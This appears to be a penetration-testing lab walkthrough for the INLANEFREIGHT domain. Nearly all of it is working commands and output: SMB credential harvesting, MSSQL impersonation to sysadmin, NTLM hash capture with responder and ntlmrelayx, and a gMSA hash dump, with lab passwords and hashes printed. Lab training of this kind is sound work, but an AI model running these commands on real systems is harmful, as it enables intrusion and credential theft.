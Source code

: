 *Command*: Extrackt all text file from smb
-  proxychains4 smbmap -H 172.16.15.15 -u Atul -p 'hooters1' -r -A txt
  
*Result:* SQL01$::INLANEFREIGHT:hash
- file 172.16.15.3-DEV_sql_dev_creds.txt  
- sqldev:Sq!D3vUs3R
  
--- 

*Command*: priv escalation with mssql
- proxychains4 -q crackmapexec mssql 172.16.15.15 -u 'sqldev' -p 'Sq!D3vUs3R' --local-auth -M mssql_priv
- proxychains4 -q crackmapexec mssql 172.16.15.15 -u 'sqldev' -p 'Sq!D3vUs3R' --local-auth -M mssql_priv -o ACTIO
N=privesc

*Result:* 
- [+] sqldev can impersonate netdb (sysadmin)
- [+] sqldev is now a sysadmin! (Pwn3d!)
  
--- 

*Command*: Execute commands with the new user
- proxychains4 -q crackmapexec mssql 172.16.15.15 -u 'sqldev' -p 'Sq!D3vUs3R' --local-auth -x 'type C:\Users\Public\flag.txt'

 *Result:* Flag
 
--- 

*Command*: Read database interns
-  proxychains4 -q crackmapexec mssql 172.16.15.15 -u 'sqldev' -p 'Sq!D3vUs3R' --local-auth -q "SELECT * FROM interns.dbo.details" > details.txt

*Result:*  intern30:Welcome1
  
--- 

*Command*: Find writable share
- cme 172.16.15.15 smb --shares 
 
*Result:* DEV_INTERN - WRITE/READ

--- 

*Command*: Steal hash with drop-sc module
- cme smb 172.16.15.12 -M drop-sc
- sudo ntlmrelayx -tf relax.txt -smb2support --no-http
- sudo responder -I tun0

*Result:* 
- JAMES:hash:04apple
---

*Command*: ldap scan to DC01
- cme ldap 172.16.15.3 -u james -p '04pple' -gmsa
  
*Result:* Account: svc_devadm$    NTLM: a995d569117ec719c2402c966867569a

---